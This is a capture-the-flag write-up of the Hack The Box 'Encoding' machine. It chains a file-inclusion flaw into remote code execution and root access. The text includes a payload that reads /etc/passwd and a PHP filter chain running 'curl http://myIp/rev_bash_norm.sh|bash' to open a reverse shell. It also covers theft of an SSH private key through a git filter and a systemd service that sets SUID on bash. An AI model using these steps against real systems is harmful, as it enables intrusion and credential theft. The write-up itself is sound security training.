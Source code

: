 ```yaml
---
title: "Hack The Box - Encoding [Medium]"
date: 2023-02-17T02:01:27+03:00
draft: false
description: 
---
```


This machine took me a couple of days due to its complexity and some minor stuff that were a hassle to get right.

You will find the following vulnerabilities:
	- [Local File Inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
	- [Command Injection or RCE](https://book.hacktricks.xyz/pentesting-web/command-injection)

# Flag 1

I started by looking through the website to get some idea of its functionality. I saw that this is some sort of converter of data, like binary to hex and so on. But the interesting part was this:

>If required, you can specify a URL that will return data to be converted with the `file_url` parameter. This can be done for both string and integer convertions.

That quickly reminded me of local/remote file inclusion, and so I've tried it with the following payload:

```python
json_data = {
	'action': 'b64encode',
	'file_url' : 'file:///etc/passwd'
}
```

That gave me the contents of the `/etc/passwd` file encoded in base64, I used `base64 -d` to decode it. From there I saw another user `svc`.

I was also curious what's in the `/var/www/` directory, so I began enumerating the directory.

I ran `ffuf` on the main website `haxtables.htb/FUZZ` also ran `ffuf` for subdomain discovery.

```
$ ffuf -w $disc_wc/raft-small-directories-lowercase.txt -u http://haxtables.htb/FUZZ

$ ffuf -w $disc_wc/common.txt -u http://haxtables.htb/ -H "Host: FUZZ.haxtables.htb" -fs 1999
```

With those I found `api, image` subdomains, so I inspected them via the LFI vulnerability `/var/www/image/index.php` to check whether this application uses some kind of database or eventually some useful things. I found that `image` domain contains a git repository (through `git_status, git_log, git_commit` functions in `/var/www/image/index.php -> uitls.php`). This led me to believe that I could use that to gain user privileges later on. I decided to dump the repository and bear with me here I did it in the most ghetto way possible, through a local server that acted as a proxy for `gitdumper.sh`

```python
import requests
import json
from flask import Flask
import base64


app = Flask(__name__)


@app.route('/<path:filepath>')
def index(filepath):
    json_data = {
        'action': 'b64encode',
        'file_url' : "file://" + "/var/www/image/" + filepath
    }
    response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
    d = json.loads(response.text.strip())
    res = base64.b64decode(d["data"])
    return res
```

```
$ gitdumper.sh http://localhost:5000/.git/ ./dump_repo
```

Then I used the `git ls-files` to figure what other files are in the folder.

```
$ git ls-files
actions/action_handler.php
actions/image2pdf.php
assets/img/forestbridge.jpg
includes/coming_soon.html
index.php
scripts/git-commit.sh
utils.php
```

I saw the `actions/action_handler.php` source code by using the LFI vulnerability.

```php
<?php
include_once 'utils.php';
if (isset($_GET['page'])) {
    $page = $_GET['page'];
    include($page); # <-- BruhMoment
} else {
    echo jsonify(['message' => 'No page specified!']);
}
?>
```

It is pretty obvious that this code is vulnerable to LFI, and I can use it to gain a reverse shell through PHP Filters. But I can't access this page directly, so I can use the first LFI to execute this LFI to execute the PHP filters RCE... 

And this is me figuring out this after 2 days of trying...

![rwojak](/random/rwojak.jpg)

I generated a payload with the [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator).

```
$ python3 php_filter_chain_generator.py --chain '<?= `curl http://myIp/rev_bash_norm.sh|bash` ;?>'
```

And I hosted a web server containing the `rev_bash_norm.sh`, I won't show the full monstrosity of the generated filter request but in the end it looked like this:

```http
POST /v3/tools/string/index.php HTTP/1.1
Host: api.haxtables.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 12920

{
    "action": "b64encode",
    "file_url" : "email@image.haxtables.htb/actions/action_handler.php?page=php://filter/<bruhmoment>"
}
```

Whenever executed, this request will spawn a reverse shell.

The `www-data` to `svc(user)` was honestly too much for me, and I turned to some write-ups. 

> The next section is what I've tried and failed, feel free to skip it.

`<i-tried-this>`
I was pretty sure that it has something to do with the `git` scripts and I only had `rwxr-xr-x` permissions of the `.git` folder, so I've tried to simulate file edit by using the dumped repository and change all the files in the `.git` directory on the server. 

And that was kinda the right approach, but I didn't notice the `ssh` keys that I needed to retrieve, so I was hard stuck at this, and I went to some write-ups. 

`</i-tried-this>`

Check [gatogamer1155](https://gatogamer1155.github.io/htb/encoding/)'s write-up for gaining access to the user and retrieve the first flag.

TLDR: 
* Creates an executable file `/tmp/readkey` with a content that reads the 
`~/.ssh/id_rsa` file and saves it to file. 
- Creates a git attributes file with a new filter called indent:  `'*.php filter=indent'` 
- Sets the Git configuration `filter.indent.clean` to the command `/tmp/readkey`. This tells Git to apply the `indent` filter to files ending in `.php` and to use the `/tmp/readkey` command to process the filter.
- Execute the `/var/www/image/scripts/git-commit.sh` with `sudo -u svc`
- The filter is then applied, and you can read the private key file.

> **NOTE:** Make sure that whenever you save the private key on your machine add an empty line at the end of the file otherwise you will get an error!

After logging with the `svc` user, you can read the first flag.

# Flag 2

Honestly, this was too easy, but I didn't mind it since I spent too much time doing this box. 

Executing the `sudo -l` would give you the executables that you can execute as root.

```
(root) NOPASSWD: /usr/bin/systemctl restart *
```

I had to create a service that looks like that and place it under `/etc/systemd/system/syl.service`

```toml
[Service]
Type=simple
ExecStart=chmod +s /bin/bash
[Install]
WantedBy=multi-user.target
```

And simply execute:

```
$ sudo /usr/bin/systemctl restart syl
$ bash -p
bash-5.1# cat root/root.txt
. . .
```
